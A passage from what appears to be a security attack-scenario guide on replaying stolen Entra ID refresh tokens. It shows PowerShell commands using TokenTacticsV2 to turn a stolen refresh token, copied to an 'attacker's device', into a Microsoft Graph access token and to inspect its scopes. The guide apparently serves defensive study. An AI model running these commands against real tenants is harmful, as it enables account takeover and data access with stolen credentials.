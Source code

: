     ![Untitled](./media/replay-prt/PrtReplay6.png)
    
2. [Import the updated version of TokenTactics](https://github.com/f-bader/TokentacticsV2) to your PowerShell. 
    1. Copy the stolen refresh token incl. ClientId from the previous step to the attacker's device. Run the following cmdlet to get an access token for Microsoft Graph API:
    
    ```powershell
    $MSGraphToken = RefreshTo-MSGraphToken -RefreshToken $RefreshToken -Domain $Tenant -ClientId $ClientId -UseCAE
    ```
    
3. Check the `ExpirationDate`  and `scp`  of the access_token by using the cmdlet “Parse-JwtToken”:

    
    ```powershell
    Parse-JWTtoken -token $MSGraphToken.access_token | Select ValidHours, xms_cc, scp
    ```
    